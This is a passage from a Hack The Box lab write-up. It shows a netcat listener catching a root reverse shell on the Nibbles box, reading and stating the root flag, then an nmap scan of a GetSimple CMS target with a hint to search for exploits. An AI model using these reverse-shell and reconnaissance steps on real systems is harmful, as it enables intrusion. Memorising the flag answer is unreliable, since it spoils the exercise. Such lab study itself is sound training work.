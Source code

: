 Now we can execute the script with `sudo`.

![](./attachments/Pasted%20image%2020230123114637.png)

We received the reverse shell in our `netcat` terminal window.

```
┌──(kali㉿kali)-[~/HTB/Nibbles]
└─$ nc -lvnp 8880
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::8880
Ncat: Listening on 0.0.0.0:8880
Ncat: Connection from 10.129.119.94.
Ncat: Connection from 10.129.119.94:37742.
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/root.txt
de5e5d6619862a8aa5b9b212314e0cdd
```

**Answer:** `de5e5d6619862a8aa5b9b212314e0cdd`

---
## 
### Question 1:
![](./attachments/Pasted%20image%2020230123135551.png)
*Hint: Use SearchSploit to find relevant exploits after finishing your enumeration.*

```
┌──(kali㉿kali)-[~/HTB/GettingStartedKnowledgeCheck]
└─$ nmap -n -sV -sC -p- -oA nmap_sV_sC_full_scan 10.129.215.234  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-23 06:37 EST
Nmap scan report for 10.129.215.234
Host is up (0.076s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4c73a025f5fe817b822b3649a54dc85e (RSA)
|   256 e1c056d052042f3cac9ae7b1792bbb13 (ECDSA)
|_  256 523147140dc38e1573e3c424a23a1277 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Welcome to GetSimple! - gettingstarted
| http-robots.txt: 1 disallowed entry 
|_/admin/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2694.37 seconds
```
